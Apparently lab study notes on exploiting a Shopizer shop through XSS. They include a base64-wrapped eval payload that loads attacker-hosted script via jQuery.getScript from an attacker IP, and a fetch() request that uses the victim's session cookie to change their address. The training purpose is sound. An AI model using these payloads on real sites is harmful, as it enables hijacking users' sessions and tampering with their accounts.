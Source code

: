 creating a simple `JS` file
```bash
kali@kali:~$ mkdir ~/xss/

kali@kali:~$ cd ~/xss/

kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
alert('It worked!')

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Next, let's craft the XSS payload that will load this file. We need to pass the `jQuery.getScript()` function a URL. We've already discovered that a semicolon causes issues with the payload, and ideally, we want to use the least amount of special characters as possible.

payload
- had to make sure `jQuery` was spelt like that
```js
jQuery.getScript('http://192.168.45.233/xsscinco.js')
```
Here, we'll find the server informing us of an "Invalid character found in the request target". This is most likely because of the value returned by the `getScript()` function. We can fix this by Base64-encoding the entire response using the `btoa()` function. We'll have to wrap the entire `eval()` in this function.

```js
'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc2NpbmNvLmpzJykK')))+'
```

Our next step is to craft a JavaScript payload to send a similar request. We'll use the `fetch()` function to send the request and pass it the URL and an object containing the various configurations necessary for the request.

without numbers `xsscinco2.js`
```js
fetch('http://shopizer:8080/shop/customer/updateAddress.html', {
  method: 'POST',
  mode: 'same-origin',
  credentials: 'same-origin',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  }, 
  body: 'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
});
```
We'll start the options object by setting the `method` to "POST" (line 2). Since our payload will effectively be hosted on the same domain as the application, we'll set the `mode` and `credentials` values to "same-origin" on lines 3 and 4. This should allow the browser to send the JSESSIONID cookie since the request will not be cross-origin. We'll include a `Content-Type` header with the value of "application/x-www-form-urlencoded" (lines 5-7). Finally, we'll include the POST body contents with some proof of concept values.

